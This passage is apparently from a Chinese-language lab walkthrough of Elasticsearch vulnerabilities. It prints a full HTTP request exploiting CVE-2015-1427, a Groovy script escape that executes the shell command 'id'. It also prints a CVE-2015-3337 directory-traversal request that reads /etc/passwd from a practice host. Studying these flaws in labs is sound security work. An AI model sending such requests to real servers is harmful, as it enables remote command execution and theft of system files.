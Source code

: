 然后发送包含payload的数据包，执行任意命令：

```
POST /_search?pretty HTTP/1.1
Host: your-ip:9200
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/text
Content-Length: 156

{"size":1, "script_fields": {"lupin":{"lang":"groovy","script": "java.lang.Math.class.forName(\"java.lang.Runtime\").getRuntime().exec(\"id\").getText()"}}}
```

![image](img/cve-2015-1427-2.png)

#### CVE-2015-3337

在安装了具有“site”功能的插件以后，插件目录使用../即可向上跳转，导致目录穿越漏洞，可读取任意文件。没有安装任意插件的elasticsearch不受影响。

影响版本：1.4.5以下/1.5.2以下

http://node4.buuoj.cn:25305/\_plugin/head/

可以看到前端的一种插件

以下不要在浏览器访问

```
GET /_plugin/head/../../../../../../../../../etc/passwd HTTP/1.1
Host: node4.buuoj.cn:25305
....
```

![image](img/cve-2015-3337.png)